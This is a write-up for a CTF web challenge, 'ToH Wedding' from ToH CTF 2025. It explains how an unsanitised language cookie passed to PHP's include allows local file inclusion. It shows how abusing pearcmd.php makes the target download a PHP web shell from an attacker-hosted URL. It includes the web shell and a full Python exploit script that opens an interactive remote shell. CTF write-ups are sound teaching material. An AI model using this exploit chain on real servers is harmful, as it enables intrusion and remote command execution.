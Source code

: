 # ToH Wedding<br><small style="color: #888;font-size: 20px;">writeup @ ToH CTF 2025</small>
<span style="background-color: #121212; padding: 4px; border-radius: 3px; margin-right: 2px;">Category: `web`</span> <span style="background-color: #121212; padding: 4px; border-radius: 3px; margin-right: 2px;">Author: [`Ricy`](https://github.com/riccardosarro)</span> <span style="background-color: #121212; padding: 4px; border-radius: 3px;">Solves: `17`</span>
> You have been invited to the wedding of **Io_no** and **MrIndeciso**, our beloved ToH couple and masters of libdebug development. Rejoice and celebrate with us, and don't forget to RSVP!

## Index
1. [TL;DR](#tldr)
2. [Source code](#source-code)
3. [Exploitation](#exploitation)
4. [Exploit script](#exploit-script)

<hr/>

<span id="tldr"></span>

### 1. `TL;DR` 
The challenge is vulnerable to a Local File Inclusion (**LFI**) attack, due to cookies not being sanitized, and an unsafe use of the `include` statement. By exploiting the file `pearcmd.php`, present in the every php server by default, we can download a file from a remote server and then have **RCE**.

<span id="source-code"></span>

## 2. Source code
You find provided a PHP application that handles dummy RSVPs. The flag is stored in the `rsvp_X.csv` file, which is technically accessible to everyone but since `X` is uniformly randomly generated and thus not predictable, hence you cannot access it directly. 

There is something funny with the `lang.php` file:

```php
// lang.php
1:  <?php
2:  session_start();
3:  
4:  if (isset($_GET['lang'])) {
5:    $lang = $_GET['lang'];
6:    // we don't trust the GET parameter, comes from the user
7:    if ($lang != 'en' && $lang != 'it') {
8:      // default if lang is not valid, is italian
9:      $lang = 'it';
10:   }
11:   // Register the session and set the cookie
12:   $_SESSION['lang'] = $lang;
13:   setcookie('lang', $lang, time() + (3600 * 24 * 30));
14: } else if (isset($_SESSION['lang'])) {
15:   $lang = $_SESSION['lang'];
16: } else if (isset($_COOKIE['lang'])) {
17:   // cookie is safe, we set it ourself
18:   $lang = $_COOKIE['lang'];
19: } else {
20:   // default language is browser language
21:   $lang = substr($_SERVER['HTTP_ACCEPT_LANGUAGE'], 0, 2);
22:   if ($lang != 'en' && $lang != 'it') {
23:     // default if browser is not valid, is italian
24:     $lang = 'it';
25:   }
26: }
27: 
28: // include the language file
29: include 'lang/' . $lang . '.php';
30: ?>
```

In **lines 4:26** we can see that even though we sanitize the `lang` parameter when coming from the GET request, we do not sanitize it when it comes from the **session** or **cookie**. While we can't control the session in this case, **cookies are controlled by the user**, so we shouldn't trust them.

>Note that if the server already set the session for us, we cannot overwrite it with a cookie, so we need to clear the session first and then set the cookie before sending the request to the server.

Something else that might catch your attention is how we include the language file in **line 29**. The `include` statement is vulnerable to [Local File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal) attacks, which means that we can include any file on the server, as long as we can control the `lang` variable, which in this case is controlled by the user through the cookie.

We are though limited by the extension of the file, which must be `.php`, but we can still include any file in the server that ends with `.php`.

<span id="exploitation"></span>

## 3. Exploitation
As explained in this [guide](https://blog.csdn.net/rfrder/article/details/121042290), PHP by default comes with the `pearcmd.php` file, which is a command line interface for the PEAR package manager. This file is usually located in the `/usr/local/lib/php/` directory, but it can vary depending on the system. And it can be used to execute arbitrary commands if we can execute it and pass it to it arguments.

In PHP, it happens something funny when we pass arguments using the url query string, for example:

```
http://example.com/pearcmd.php?abc+abc
```

This will load the array `["abc", "abc"]` of arguments, which will be passed to the `$_SERVER['argv']` variable.

Thus, we can use this to execute arbitrary commands by including the `pearcmd.php` file and passing it the command we want to execute as an argument.

For instance, a way to do this is to set the `lang` cookie to `../../../../usr/local/lib/php/pearcmd`, this will include the `pearcmd.php` file in the current page, and then we can use query parameters: `/?&+install+-R+/+{webhook_url}/s.php` to inject the `$_SERVER['argv']` variable.

This will execute the `pearcmd.php` file with the `install -R / {webhook_url}/s.php` arguments, which will download the `s.php` file from the webhook URL. 

By default, these files will be saved in the `/tmp/pear/download/` directory, so we can then include it again using the cookie `lang` set to `../../../../tmp/pear/download/s`.

Finally, we need to host the `s.php` file on a server that we control, allowing us to execute arbitrary PHP code on the server. One way to do this is to create a simple PHP web shell in the `s.php` file, for example:

```php
<?php
if (isset($_GET['cmd'])) {
  system($_GET['cmd']);
}
?>
```

This will allow us to execute arbitrary commands on the server by visiting the URL `https://tohwedding.ctf.towerofhanoi.it/?cmd=ls` when the cookie `lang` is set to `../../../../tmp/pear/download/s`.

and thus we can read the flag from the `rsvp_X.csv` file by either executing the command `cat rsvp_*`, or by just leaking the file name with the `ls` command and then accessing it directly with the URL `https://tohwedding.ctf.towerofhanoi.it/rsvp_X.csv`.

Hope you had fun! 😊

<span id="exploit-script"></span>

## 4. Exploit script
```python
import pyngrok.ngrok
import requests
import urllib.parse
import re
from pyngrok import ngrok
from flask import Flask, Response
from threading import Thread

app = Flask(__name__)

import random
def random_hex(length=8):
    """Generate a random hexadecimal string of specified length."""
    return ''.join(random.choice('0123456789abcdef') for _ in range(length))

rndhex = random_hex()

app_path = f"/s{rndhex}.php"

@app.route(app_path)
def revshell():
  php_code = """<?php
  if (isset($_GET['cmd'])) {
      $cmd = $_GET['cmd'];
      echo "<pre>" . shell_exec($cmd) . "</pre>";
  } else {
      echo "No command provided.";
  }
?>"""
  return Response(php_code, mimetype='application/x-httpd-php')


s = requests.Session()
flag_format = "toh{[^}]+}"

# host a s.php file in repourl
ngrok_tunnel = ngrok.connect(5000)
webhook_url = ngrok_tunnel.public_url

# challenge url
baseurl = "http://localhost:8080"
baseurl = "https://tohwedding.ctf.towerofhanoi.it"

def lfi2download():
  url = f"{baseurl}/?&+install+-R+/+{webhook_url}/s{rndhex}.php"
  s.cookies.set("lang", "../../../../usr/local/lib/php/pearcmd")
  r = s.get(url)
  print(r.text)

def trigger_rce(cmd):
  url = f"{baseurl}/?cmd={urllib.parse.quote(cmd)}"
  s.cookies.set("lang", f"../../../../tmp/pear/download/s{rndhex}")
  r = s.get(url)
  text = r.text.split("<!DOCTYPE")[0]
  print(text)
  return text

def interactive_shell():
  while True:
    cmd = input("$> ")
    if cmd.lower() == "exit":
      break
    trigger_rce(cmd)

def get_flag():
  text = trigger_rce("cat rsvp_*")
  print(text)
  flag = re.search(flag_format, text)
  if flag:
    print(flag.group(0))
  else:
    print("[!] No flag found.")

def main():
  lfi2download()
  get_flag()
  interactive_shell()
  

if __name__ == "__main__":
  Thread(target=app.run, kwargs={'host': '0.0.0.0', 'port': 5000}, daemon=True).start()
  main()
```
